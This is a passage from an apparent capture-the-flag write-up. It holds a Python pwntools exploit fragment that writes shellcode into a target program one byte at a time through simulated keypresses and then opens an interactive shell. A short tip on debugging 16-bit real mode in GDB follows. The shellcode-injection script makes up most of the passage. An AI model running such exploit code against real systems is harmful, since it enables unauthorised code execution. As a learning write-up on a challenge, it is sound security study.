 ```python


def sub_one(offset):
    p.send(p8(offset+ord('0')))
    p.send(DOWN)


SHELLCODE_OFFSET = 0x5
offset = 0

for x in range(len(SHELLCODE)):
    if PREV[x] > SHELLCODE[x]:
        for i in range(PREV[x] - SHELLCODE[x]):
            sub_one(SHELLCODE_OFFSET+x)
            if i % 4 == 0:
                sleep(0.3)
    else:
        for i in range(-PREV[x] + SHELLCODE[x]):
            add_one(SHELLCODE_OFFSET+x)
            if i % 4 == 0:
                sleep(0.3)

for i in range(0xfe-0xd7):
    sub_one(0x31-4)
    if i % 4 == 0:
        sleep(0.3)

pause()

p.send(b"\x1b")

print(p.recv(1000))
print(p.recv(1000))

pause()

p.interactive()
```
![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/60883b02-33f0-491f-9605-048816138831)

P/s:
This trick may help you when you want to debug 16-bit real mode with GDB:
![image](https://github.com/robbert1978/robbert1978.github.io/assets/31349426/d1d9bc4e-e288-4e4d-a6d0-c0135ee7fd45)

Link: https://gist.github.com/MatanShahar/1441433e19637cf1bb46b1aa38a90815?permalink_comment_id=3315921#gistcomment-3315921

